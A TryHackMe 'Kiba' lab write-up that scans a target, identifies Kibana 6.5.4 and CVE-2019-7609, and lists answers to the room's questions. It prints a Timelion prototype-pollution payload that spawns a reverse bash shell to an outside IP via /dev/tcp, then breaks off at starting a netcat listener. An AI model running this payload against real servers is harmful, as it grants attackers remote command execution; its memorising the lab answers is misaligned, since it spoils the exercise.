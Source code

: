 # kiba

If we try to access kibana through browser by IP address, we won't get direct access. It will display this page :

![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/0fa7feb7-4810-44fd-aa97-1530bbab484f)

So through http port we can't get access of kibana. Thus, we will look for open ports of provided IP.

Initiate nmap scan to the provided IP.

`sudo nmap -p- 10.10.174.118`

As we can see the open ports through nmap scan, `5601/tcp` is the `esmagent` of Enterprise Service Management.

Give `<ip>:port` to access kibana. (`10.10.174.118:5601`)

![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/7a3aab02-518c-4720-8b2f-4c21bc3bb4fb)

### What is the vulnerability that is specific to programming languages with prototype-based inheritance?

    Prototype Pollution
    
![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/9bc44c56-7662-4b81-8ed3-b32a5dabe88c)

### What is the version of visualization dashboard installed in the server?

    Ver 6.5.4
    
    In Kibana, go to Management tab 
    
    There we can see the Version : 6.5.4 mentioned.
    
![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/1b1b4e75-ccb3-4044-b392-7ee831cad2fe)


### What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000

    CVE-2019-7609
    
![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/9bc44c56-7662-4b81-8ed3-b32a5dabe88c)

### Compromise the machine and locate user.txt

https://github.com/mpgn/CVE-2019-7609

![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/15fea3fa-b706-4ace-8c9b-1975f37a0eb4)

* This is the link of github repository which consists of the payload to exploit this vulnerability.
* Copy the payload

      .es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
      .props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
    
* Open `Timelion` in kibana and paste the payload in the provided box.
* Start a netcat listener

